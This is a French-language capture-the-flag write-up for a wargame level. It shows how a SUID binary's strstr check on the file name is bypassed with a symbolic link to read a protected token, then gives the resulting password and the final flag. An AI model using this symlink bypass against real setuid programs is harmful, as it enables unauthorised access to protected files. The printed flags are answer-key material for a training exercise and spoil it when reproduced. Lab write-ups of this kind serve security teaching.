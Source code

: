 # Level 08

## Étapes pour résoudre le challenge

### 1. Initialisation

Nous avons deux fichiers dans ce niveau : un exécutable `level08` et un fichier `token` avec des permissions élevées. 

### 2. Analyse des permissions et des fichiers

Nous examinons les permissions des fichiers pour comprendre leurs rôles.

```bash
ls -la
```

**Sortie :**
```
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

L'exécutable `level08` a le bit SUID activé, ce qui signifie qu'il s'exécute avec les privilèges de son propriétaire, `flag08`.

### 3. Exécution de l'exécutable

Nous essayons d'exécuter `level08` pour voir son comportement.

```bash
./level08
```

Il semble qu'il prenne un argument. Nous supposons qu'il s'agit du fichier `token` qu'il doit traiter.

### 4. Tentative d'accès au fichier `token`

Nous essayons de fournir le fichier `token` comme argument.

```bash
./level08 token
```

**Sortie :**
```
You may not access 'token'
```

### 5. Utilisation de `ltrace` pour analyser l'exécutable

Nous utilisons `ltrace` pour observer les appels système et les bibliothèques utilisées par le programme.

```bash
ltrace ./level08 token
```

**Sortie :**
```
strstr("/tmp/token", "token") = "token"
printf("You may not access '%s'\n", "/tmp/token"You may not access '/tmp/token') = 32
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Nous voyons que le programme utilise `strstr` pour vérifier si le mot `token` est présent dans le chemin du fichier.

### 6. Exploitation de la vérification du chemin

Pour contourner cette vérification, nous créons un lien symbolique sans le mot `token`.

```bash
ln -s /home/user/level08/token /tmp/linker
./level08 /tmp/linker
```

**Sortie :**
```
quif5eloekouj29ke0vouxean
```

Nous avons obtenu le flag : `quif5eloekouj29ke0vouxean`.

### 7. Utilisation du flag pour accéder au niveau suivant

Nous utilisons le flag pour nous connecter en tant que `flag08`.

```bash
su flag08
password : quif5eloekouj29ke0vouxean
```

Puis, nous exécutons la commande `getflag`.

```bash
getflag
```

**Sortie :**
```
25749xKZ8L7DkSCwJkT9dyv6f
```

Le flag pour `level08` est : `25749xKZ8L7DkSCwJkT9dyv6f`.

## Résumé

Pour résoudre ce challenge, nous avons analysé les fichiers disponibles, utilisé `ltrace` pour comprendre les vérifications effectuées par le programme et exploité une vulnérabilité de vérification de chemin pour obtenir le flag. 

Le flag pour `level08` est : `25749xKZ8L7DkSCwJkT9dyv6f`.
